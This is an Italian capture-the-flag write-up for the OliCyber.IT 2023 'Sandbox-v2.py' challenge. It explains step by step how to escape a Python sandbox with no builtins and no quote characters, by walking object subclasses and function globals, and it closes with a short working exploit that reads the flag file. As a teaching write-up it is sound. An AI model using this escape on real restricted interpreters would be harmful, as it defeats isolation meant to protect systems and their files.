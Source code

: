 # OliCyber.IT 2023 - Competizione Nazionale

## [misc] Sandbox-v2.py (26 risoluzioni)

La challenge consiste in una sandbox della shell interattiva di python, ha un setup simile al livello 1, con la differenza che non vengono messi a disposizione i builtins di python e vengono aggiunte alla blacklist gli apici, sia singoli che doppi.
Lo scopo della challenge è leggere il file della flag.

### Soluzione

L'obiettivo è recuperare i `builtins` (ossia le funzioni sempre presenti come `open`, `exit`, `chr`, ...), una volta ottenuti leggere la flag diventa banale.
Questo è ciò che c'è da sapere per risolvere la challenge:

**Trick 1**: tutte le "[user defined functions](https://docs.python.org/3/reference/datamodel.html#user-defined-functions)" hanno un riferimento alle variabili globali del file in cui vengono definite:

```py
In [1]: def fun():
   ...:     pass
   ...:

In [2]: globals() is fun.__globals__
Out[2]: True

In [3]: fun.__globals__["__builtins__"]
Out[3]: <module 'builtins' (built-in)>
```

i globals sono un dizionario di python con tutti gli oggetti presenti nello scope gloable del file, comprendono dunque anche i `builtins` come si evince dalla riga 3.

**Trick 2**: sfruttare l'ereditarietà per recuperare gli oggetti. In python ogni classe tiene in riferimento alla classe base e una lista di tutte le classi figlie. Inoltre, se non viene specificata una classe da cui ereditare, una classe eredita da `object` di default. Le classi figlie si enumerano con la funzione `__subclasses__` nel seguente modo (l'espressione `().__class__.__base__` serve per recuperare `object`):

```py
>>> ().__class__.__base__.__subclasses__()
[<class 'type'>, <class 'async_generator'>, <class 'int'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>, <class 'bytes'>, <class 'builtin_function_or_method'>, <class 'callable_iterator'>, <class 'PyCapsule'>, <class 'cell'>, <class 'classmethod_descriptor'>, ... (parte omessa) ...
<class 'traceback.FrameSummary'>, <class 'traceback.TracebackException'>, <class '__future__._Feature'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class 'codeop.Compile'>, <class 'codeop.CommandCompiler'>, <class 'code.InteractiveInterpreter'>, <class 'ast.AST'>]
>>>
```

Particolarmente interessante è il penultimo elemento della lista `<class 'code.InteractiveInterpreter'>`, questa è una classe user defined e dunque è possibile utilizzarla per recuperare i builtins come spiegato nel Trick 1.

Mettendo tutto insieme possiamo recuperare i builtins in questo modo:

si prende il riferimento a `<class 'code.InteractiveInterpreter'>`:

```py
>>> ii = ().__class__.__base__.__subclasses__()[-2]
```

si prendono i globals dalla funzione `__init__` come spiegato nel Trick 1:

```py
>>> gb = ii.__init__.__globals__
```

si leggono i nomi degli elementi all'interno di globals per vedere a che indice si trova builtins:

```py
>>> gb.keys()
dict_keys(['__name__', '__doc__', '__package__', '__loader__', '__spec__', '__file__', '__cached__', '__builtins__', 'sys', 'traceback', 'CommandCompiler', 'compile_command', '__all__', 'InteractiveInterpreter', 'InteractiveConsole', 'interact'])
```

si prendono i builtins accedendo al settimo elemento di `gb` usando l'unpacking operator `*` per creare una lista da un iterabile; si possono assegnare direttamente alla variabile `__builtins__` in modo da renderli subito disponibili nella shell:

```py
>>> __builtins__ = [*gb.values()][7]
```

la conferma che i builtins siano disponibili si può fare accedendo alle funzioni classiche:

```py
>>> open
<built-in function open>
>>> chr
<built-in function chr>
```

### Exploit

```py
ii = ().__class__.__base__.__subclasses__()[-2]
gb = ii.__init__.__globals__
__builtins__ = [*gb.values()][7]
open(chr(102)+chr(108)+chr(97)+chr(103)).read()
```
